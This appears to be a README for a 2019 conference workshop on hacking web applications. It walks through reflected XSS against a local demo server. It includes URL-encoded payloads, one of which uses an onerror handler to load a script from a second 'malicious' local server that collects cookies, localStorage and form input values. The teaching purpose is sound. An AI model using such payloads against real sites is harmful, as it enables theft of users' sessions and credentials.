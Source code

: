 # Intro to Hacking Web Applications
## ThatConference 2019

Welcome!

This repo is intended to help illustrate some basic hacking techniques against web applications per my workshop at
ThatConference 2019.

### Setup

Clone this repo, then `npm i` to install dependencies for the examples.

`node index.js` should then fire up the example web server, which you can access at `http://localhost:3000`.

### Notes

Look at the JavaScript file being loaded by the webpage. Do you notice anything curious?

What if you change the URL of the webpage to:

   * http://localhost:3000/?errorMessage=%3Cimg%20src=%22https://images.sk-static.com/images/media/profile_images/artists/29315/huge_avatar%22%20/%3E
   
What happened? You just witnessed a reflected XSS attack!

The example isn't too horrifying... but let's imagine a worse scenario.

In a new terminal, run `node malicious.js`. This will stand up a second web server with malicious intentions (note: it won't harm your system!).

What if the URL for the original web app included a malicious JavaScript snippet that attempted to grab any values stored in cookies, localstorage
or form inputs and send those back to a different web server waiting for this sort of response.

Change the URL to:

  * http://localhost:3000/?errorMessage=%3Cimg%20src=%22%22%20onerror=%22var%20s%20=%20document.createElement(%20%27script%27%20);%20s.setAttribute(%20%27src%27,%20%27http://localhost:3001/getFormValues.js%27%20);%20document.body.appendChild(%20s%20);%22/%3E
  
Now, start typing into the inputs of the original web application... and watch the terminal of the malicious app!